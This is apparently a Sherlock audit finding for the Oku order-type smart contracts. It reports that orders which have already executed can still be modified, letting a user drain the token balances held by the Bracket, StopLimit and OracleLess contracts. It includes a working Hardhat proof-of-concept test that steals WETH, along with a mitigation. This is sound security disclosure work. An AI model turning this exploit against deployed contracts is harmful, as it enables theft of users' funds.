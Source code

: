 Boxy Peach Jellyfish

High

# Users whose orders has been executed Via `performUpkeep()`/`fillOrder()` can drain contracts(`Basket, OracleLess, StopLimit`) balance of their `tokenIn`.

### Summary

Orders are not deleted after being executed via `performUpkeep()`/`fillOrder()`. Therefore, a user whose order has been executed can call `modifyOrder` and reduce the executed order amount to the `minOrderSize` set by the protocol. The reduced amount will be sent to the users who have already initially received the swapped amount for that same order. 

### Root Cause

In [Bracket.sol:85](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L85), 

In [StopLimit.sol:75](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L75), 

In [OracleLess.sol:103](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L103), 

`order` to be executed should be deleted but isn't

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

User order gets executed via `performUpkeep()`/`fillOrder()`.
The user calls `modifyOrder()` passing the executed order ID and proceeds to reduce the executed order amount to `minOrderSize`.

### Impact

A user can drain the contracts (`Basket, OracleLess, StopLimit`) token balance by repeating the same process.

### PoC

Add this to [test/triggerV2/happyPath.ts](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/test/triggerV2/happyPath.ts).

```typescript
describe("Create Order With Intent To Steal Contract Funds After Order Has Been Executed", () => {
    const stopDelta = ethers.parseUnits("500", 8);
    const strikeDelta = ethers.parseUnits("100", 8);
    const strikeBips = 500;

    let orderId: BigInt;
    //setup
    before(async () => {
        //steal money for s.Bob
        await stealMoney(
            s.wethWhale,
            await s.Bob.getAddress(),
            await s.WETH.getAddress(),
            s.wethAmount
        );

        //reset test oracle price
        await s.wethOracle.setPrice(s.initialEthPrice);
        await s.usdcOracle.setPrice(s.initialUsdcPrice);
    });

    it("Should Begin Attack", async () => {
        const currentPrice = await s.Master.getExchangeRate(
            await s.WETH.getAddress(),
            await s.USDC.getAddress()
        );
        await s.WETH.connect(s.Bob).approve(
            await s.Bracket.getAddress(),
            s.wethAmount
        );

        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice + strikeDelta,
            currentPrice - stopDelta,
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            5,
            strikeBips,
            0,
            false, 
            "0x"
        );

        const filter = s.Bracket.filters.OrderCreated;
        const events = await s.Bracket.queryFilter(filter, -1);
        const event = events[0].args;
        orderId = event[0];
        expect(Number(event[0])).to.not.eq(0, "Third order");

        //verify pending order exists
        const list = await s.Bracket.getPendingOrders();
        expect(list.length).to.eq(1, "1 pending order");

        //verify our input token was received
        const balance = await s.WETH.balanceOf(await s.Bracket.getAddress());
        expect(balance).to.be.closeTo(
            s.wethAmount,
            200000000000000000n,
            "WETH received"
        );

        //increase price to strike price
        await s.wethOracle.setPrice(s.initialEthPrice + strikeDelta);

        //check upkeep
        const result = await s.Master.checkUpkeep("0x");

        //get returned upkeep data
        const data: MasterUpkeepData = await decodeUpkeepData(
            result.performData,
            s.Frank
        );

        //get minAmountReceived
        const minAmountReceived = await s.Master.getMinAmountReceived(
            data.amountIn,
            data.tokenIn,
            data.tokenOut,
            data.bips
        );

        //generate encoded masterUpkeepData
        const encodedTxData = await generateUniTx(
            s.router02,
            s.UniPool,
            await s.Bracket.getAddress(),
            minAmountReceived,
            data
        );

        // execute order
        await s.Master.performUpkeep(encodedTxData);
        const ogOrder = await s.Bracket.orders(orderId.toString());

        //user USDC receive tokens after order has been executed
        let usdcBalance = await s.USDC.balanceOf(await s.Bob.getAddress());
        expect(usdcBalance).to.be.gt(0n, "USDC received");

        const wethBalanceBeforeAttack = await s.WETH.balanceOf(
            await s.Bob.getAddress()
        );

        const amountToSteal = s.wethAmount / 2n;

        // send WETH to Bracket contract
        await stealMoney(
            s.wethWhale,
            await s.Bracket.getAddress(),
            await s.WETH.getAddress(),
            amountToSteal
        );

        const wethBracketBalanceBeforeAttack = await s.WETH.balanceOf(
            await s.Bracket.getAddress()
        );
        expect(wethBracketBalanceBeforeAttack).to.be.eq(
            amountToSteal,
            "WETH to Bracket received"
        );

        //decrease already filled position amount to steal from contract
        await s.Bracket.connect(s.Bob).modifyOrder(
            orderId.toString(),
            ethers.toBigInt(ogOrder.takeProfit),
            ethers.toBigInt(ogOrder.stopPrice),
            amountToSteal,
            ogOrder.tokenOut,
            ogOrder.recipient,
            ogOrder.takeProfitSlippage,
            ogOrder.stopSlippage,
            false,
            false,
            "0x"
        );

        const wethBalanceAfterAttack = await s.WETH.balanceOf(
            await s.Bob.getAddress()
        );
        const wethBracketBalanceAfterAttack = await s.WETH.balanceOf(
            await s.Bracket.getAddress()
        );

        expect(wethBracketBalanceAfterAttack).to.be.eq(
            0,
            "WETH in Bracket stolen"
        );
        expect(wethBalanceAfterAttack).to.be.eq(
            wethBalanceBeforeAttack + amountToSteal,
            "Stolen WETH received"
        );
    });
});
```

This POC is for `Bracket`, POC for `StopLimit` and `OracleLess` are similar except `OracleLess` where `performUpKeep` is named `fillOrder`  so no need to write them.

### Mitigation

In [Bracket.sol:85](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/Bracket.sol#L85), 

In [StopLimit.sol:75](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L75), 

In [OracleLess.sol:103](https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L103), 

`order` to be executed should be deleted.

A check in`modifyOrder()` should be made that verifies that an order is active before modifying.
